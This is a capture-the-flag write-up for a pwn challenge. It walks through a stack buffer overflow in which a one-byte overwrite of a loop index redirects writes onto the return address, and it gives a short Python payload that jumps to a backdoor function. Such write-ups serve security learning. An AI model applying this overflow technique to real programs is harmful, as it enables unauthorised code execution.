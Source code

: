 ### Solution

#### Stack layout

We should focus on the stack layout after `v7` :

```c
  unsigned int v3; // eax
  __int64 v4; // rax
  char fd; // [rsp+0h] [rbp-640h]
  char v7[1008]; // [rsp+210h] [rbp-430h]
  int rnd1; // [rsp+600h] [rbp-40h]
  int rnd2; // [rsp+604h] [rbp-3Ch]
  int rnd3; // [rsp+608h] [rbp-38h]
  int rnd4; // [rsp+60Ch] [rbp-34h]
  int rnd5; // [rsp+610h] [rbp-30h]
  int chr; // [rsp+61Ch] [rbp-24h]
  __int64 const_4; // [rsp+620h] [rbp-20h]
  int j; // [rsp+628h] [rbp-18h]
  int i; // [rsp+62Ch] [rbp-14h]
```

in gdb:

![](http://image.taqini.space/img/20200427013321.png)

`j` is the **index** of `v7` as well as the variable controlling the `for loop` 

We can overwrite 1 byte of `j` after 1048 times `getchar`

```c
  for ( j = 0; j <= 1089; ++j ){
    chr = getchar();
    v7[j] = chr;
  }
```

Here is the stack layout while j is 1048: 

![](http://image.taqini.space/img/20200427015128.png)

We can overwrite the last byte of `j` to `0x37` ,so that `j` become `0x438` after `j++`

> `v7[0x438]` is the address of the return address

#### ret2backdoor

In the next 8 times `getchar`, return address in stack will be overwritten with address of backdoor:

```python
offset = 1048
payload = cyclic(offset)
payload += '\x37'
payload += p64(0x0401253) # backdoor
payload = payload.ljust(0x441,'A')
# debug('b *0x40129e')
sl(payload)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/IJCTF2020/pwn/input) 

